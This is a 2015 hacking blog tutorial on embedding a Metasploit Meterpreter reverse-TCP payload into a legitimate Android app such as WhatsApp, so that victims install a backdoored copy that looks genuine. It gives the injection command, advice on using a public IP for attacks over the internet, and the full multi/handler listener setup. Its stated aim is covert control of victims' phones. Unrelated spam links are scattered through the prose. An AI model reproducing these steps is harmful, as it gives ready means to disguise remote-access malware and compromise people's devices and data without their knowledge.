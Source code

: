 ```yaml
---
author: SkullTech
comments: true
date: 2015-12-11 21:00:19+00:00
layout: post
link: https://techkernel.org/2015/12/11/embed-metasploit-payload-in-apk-easily/
slug: embed-metasploit-payload-in-apk-easily
title: Embed a Metasploit Payload in an Original .apk File | Part 1 - The Easy Way
wordpress_id: 13
categories:
- Android
- Hacking
- Metasploit
tags:
- Android
- Hacking
- Kali
- Metasploit
- Meterpreter
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in [the](https://www.riesinterior.com/2015/01/smeg-inspiratie-voor-de-keuken/) kingdom of hacking, have heard of Metasploit. Don’t be disappointed if [you](https://podelkamoy.ru/podelki-iz-glini/kak-pravilno-prigotovit-glinu.html) haven’t, because you’re in the right track.

From Wikipedia,

    
    The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.



    
    Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the ‘Meterpreter’, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is,  it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means [Usually involving Social Engineering], and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak [havoc](http://www.hairrestorationnetwork.com/wyadmin/blog/6902/) on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### PRE-REQUISTICS:


Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing (Read, hacking). You should also install the latest version of ‘ApkTool’ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console:

    
    apt-get install lib32stdc++6 lib32ncurses5 lib32z1


And to get the latest version of ApkTool, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### **STEP 1:**


First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a WhatApp.apk as example.


### **STEP 2:**


Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.


### STEP 3:


Open a terminal, and type the following command:

    
    ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895


In this example I’ve used 192.168.0.104 as the Local IP address, i.e. your IP address and 4895 as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the LPORT can be set to any reasonable port no.

**NOTE** – If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the LHOST option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to /root/original.

Then open the AndroidManifest.xml file using any text editor you like and look for an <activity> tag which contains both the texts ‘.MAIN’ and ‘.LAUNCHER’. When you find that tag, look for the ‘android:name’ attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](https://techkernel.org/wp-content/uploads/2015/12/screenshot-from-2015-12-12-01-44-01.png)![Screenshot from 2015-12-12 01-43-27](https://techkernel.org/wp-content/uploads/2015/12/screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!:


If you did everything correctly, you should now get a apk file in your root directory with the name ‘backdoored_WhatsApp.apk’. It will install and run just like the original app.

As for the listener, you should use multi/handler and set the corresponding options accordingly. Just run the following commands.

    
    msfconsole



    
    use multi/handler



    
    set PAYLOAD android/meterpreter/reverse_tcp



    
    set LHOST 192.168.0.104



    
    set LPORT 4895



    
    exploit


Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](https://techkernel.org/wp-content/uploads/2015/12/screenshot-from-2015-12-18-143255.png)


### NOTE:


You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.


### CREDITS:


I found the script from the comments section of a thread in NullByte, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to timwr and Jack64.
